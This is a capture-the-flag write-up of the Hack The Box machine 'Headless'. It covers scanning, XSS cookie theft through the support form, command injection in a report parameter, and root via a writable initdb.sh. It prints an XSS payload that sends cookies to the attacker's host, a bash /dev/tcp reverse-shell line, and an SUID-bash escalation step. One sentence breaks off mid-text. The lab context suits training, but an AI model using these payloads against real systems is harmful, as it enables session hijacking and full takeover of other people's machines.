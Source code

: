 ```yaml
---
title: HTB-Headless
draft: false
tags:
  - htb
  - linux
  - sudo
  - xss
  - xss-cookie-stealing
  - cme
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/Headless.png)

## Information Gathering
### Rustscan

Rustscan discovers SSH and port 5000 open:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/headless]
└─$ sudo rustscan --addresses 10.10.11.8 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
<snip>
Host is up, received echo-reply ttl 63 (0.30s latency).
Scanned at 2024-05-15 00:28:08 EDT for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
5000/tcp open  upnp    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

## Enumeration
### HTTP - TCP 5000
HTTP is running on port 5000 and the websites is still under construction.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image.png)

**/support** pages shows form for contacting support:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-1.png)

Directory Bruteforcing via Feroxbuster discovers a new path: /dashboard:

`sudo feroxbuster -u http://10.10.11.8:5000 -C 404`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-2.png)

**/dashboard** access is unauthorized:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-3.png)

In order to gain access to the dashboard, we will first need to login to the application. we would be able to exploit vulnerabilities such as XSS from the support page. By exploiting XSS, we can steal admin user cookie, and use it to sign-in as the administrator. 

## XSS Cookie Stealing
We will follow this [article](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)for XSS Cookie stealing.

Let's first intercept the request connection to /support form using Burp Suite:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-4.png)

Utilizing the following code, we will be able to obtain user's cookie and forward it to my listener:

```html
<script>var i=new Image(); i.src="http://10.10.14.14:8000/?cookie="+btoa(document.cookie);</script>
```

From some investigation, it seems like XSS works when the payload is placed under both **User-Agent** and **message** parameter as such below:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-5.png)

Running the request with payload, we can obtain cookie value:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-6.png)

Let's decrypt the cookie using base64:

`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-7.png)

Using the discovered cookie, let's sign-in to dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-8.png)


Now we can successfully sign-in to Administrator Dashboard:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-9.png)

## RCE to Reverse Shell

After intercepting the request for "Generate Report" using Burp Suite, we can modify the "date" parameter and perform Remote Code Execution.

Below, it shows RCE command for `pwd` command via `&& pwd`:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-10.png)

`pwd` command successfully runs:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-11.png)


### Reverse shell

Let's escalate this RCE vulnerability to Reverse shell.

We will first create file named **rev.sh** containing the following piece of code:

`bash -i >& /dev/tcp/10.10.14.14/1337 0>&1`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-12.png)

We will also prepare Python http server for transferring **rev.sh** over to the host machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-13.png)

Now, let's modify the date parameter so that it will download rev.sh from the attacking xt](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-14.png)


On our netcat listener, we get a shell as **dvir**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-15.png)

## Privesc: dvir to root



Running command `sudo -l` shows that **/usr/bin/syscheck** can be ran as the root:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-16.png)


This script uses an `if` statement to check if a process named "initdb.sh" is running using `pgrep`. If the process is not found (`! /usr/bin/pgrep -x "initdb.sh" &>/dev/null`), it prints a message indicating that the database service is not running and starts it by executing `./initdb.sh`.

```bash
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Let's create initdb.sh and echo bash command in it as such:

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

We can obtain root privilege through `/bin/bash -p` command after running syscheck:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-17.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/headless/image-18.png)




## References
- https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
